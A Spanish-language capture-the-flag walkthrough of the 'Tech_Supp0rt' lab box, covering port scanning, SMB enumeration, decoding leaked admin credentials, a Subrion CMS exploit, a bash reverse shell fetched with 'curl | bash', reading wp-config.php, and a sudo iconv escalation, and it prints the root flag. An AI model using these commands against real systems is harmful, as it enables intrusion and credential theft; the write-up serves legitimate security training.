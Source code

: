 # Tech_Supp0rt

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para visualizar los puertos abiertos y servicios que puedan ser vulnerables.

```
nmap -A -sV -sC -Pn -v -oN nmap_report 10.10.249.253
```

Tenemos 4 puertos abiertos: 
- 80
- 22
- 445
- 139

![Imagen](images/Pasted_image_20250221184447.png)

Resultados del script de los posibles CVE's que haya:


![Imagen](images/Pasted_image_20250221184525.png)

## Fuzzing web

Accedemos al sitio web. Es simplemente una página principal de apache.

![Imagen](images/Pasted_image_20250221184612.png)

Usamos`feroxbuster` para buscar más directorios.

```
feroxbuster --url http://10.10.249.253/ -C 404 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
```

Encontramos:
- /test
- WordPress

![Imagen](images/Pasted_image_20250221191052.png)

Enumeramos a través del protocolo SMB con`enum4Linux`.

```
enum4linux 10.10.249.253
```
![Imagen](images/Pasted_image_20250221191552.png)

Accedemos al directorio de`/test`. Pero no podemos hacer gran cosa porque esta lleno de popups de alertas.

![Imagen](images/Pasted_image_20250221192217.png)

Después de unos minutos, `enum4linux`nos ha encontrado el usuario`scamsite`:

![Imagen](images/Pasted_image_20250221192324.png)

Intentamos acceder por samba a `websrv`. Le damos a Intro en la contraseña y entramos como anónimo.

```
smbclient \\\\10.10.249.253\\websvr
```

Encontramos un fichero llamado `enter.txt`.

![Imagen](images/Pasted_image_20250221192804.png)

Nos lo descargamos y salimos.

```
get enter.txt
exit
```

![Imagen](images/Pasted_image_20250221192921.png)

Mostramos el contenido del fichero y están los credenciales del admin en wordpress además de un directorio nuevo llamado `/subrion:

![Imagen](images/Pasted_image_20250221192953.png)

`/subrion`descubrimos que tiene un `robots.txt`.

![Imagen](images/Pasted_image_20250221193243.png)

Accedemos a`/panel`.

```
http://10.10.249.253/subrion/panel/
```
![Imagen](images/Pasted_image_20250221193332.png)

## Cracking the password

Volvemos a los credenciales obtenidos anteriormente del admin.

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
```

Copiamos la contraseña y nos vamos a `CyberChef`. 

![Imagen](images/Pasted_image_20250221193642.png)

Escribimos`magic`en el buscador y lo arrastramos a la receta del centro:

![Imagen](images/Pasted_image_20250221193735.png)

Ponemos la contraseña en el input y nos dice que es Base58 y la contraseña es `Scam2021`.


![Imagen](images/Pasted_image_20250221193832.png)

Y ahora si pudimos acceder al panel de control con la cuenta de admin.

![Imagen](images/Pasted_image_20250221193923.png)

## Escalada de privilegios

Teniendo el nombre de usuario y la contraseña, tenemos una shell utilizando el siguiente script:

https://www.exploit-db.com/exploits/49876

Usaremos el siguiente comando:

```
python3 49876.py -u http://10.10.249.253/subrion/panel/ -l admin -p Scam2021
```

Una vez completado, accedemos automáticamente con el exploit de Subrion CMS con la shell de python:

![Imagen](images/Pasted_image_20250221200249.png)

Creamos un fichero en el host de Kali.

```
nano helloworld.sh
```

Con el siguiente contenido:

```
#! /bin/bash

bash -i >& /dev/tcp/10.8.3.33/4444 0>&1
```

>La IP es la del puerto en escucha que tenemos en Kali.

Abrimos un servidor http con python por el puerto 8080.

```
python3 -m http.server 8080 
```
![Imagen](images/Pasted_image_20250221201209.png)

Escuchamos por el puerto 4444 con `netcat`:

```
nc -nvlp 4444
```

Descargamos y ejecutamos el script en la shell de python que tenemos abierta en la otra terminal:

```
curl 10.8.3.33:8080/helloworld.sh | bash
```

El puerto 4444 que teniamos en escucha establece la conexión.

![Imagen](images/Pasted_image_20250221202602.png)


![Imagen](images/Pasted_image_20250221202721.png)

Nos ubicamos en la siguiente ruta:

```
cd /var/www/html/wordpress
```

Mostramos el fichero de`wp-config.php`:

```
cat wp-config.php
```

Y obtenemos la contraseña:

```
ImAScammerLOL!123!
```
![Imagen](images/Pasted_image_20250221204912.png)

Logeamos en el sitio lleno de popups de antes con los credenciales obtenidos.

Ejecutamos una shell de python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh -i
```
![Imagen](images/Pasted_image_20250221205106.png)

Entramos con el usuario`scamsite`:

```
su scamsite
ImAScammerLOL!123!
```
![Imagen](images/Pasted_image_20250221205404.png)

Comprobamos las SUID:

```
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```

Comprobamos si gtfobins, iconv pueden funcionar con privilegios

```
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```

Y obtenemos la flag del root:

```
851b8233a8c09400ec30651bd1529bf1ed02790b
```
![Imagen](images/Pasted_image_20250221210101.png)



































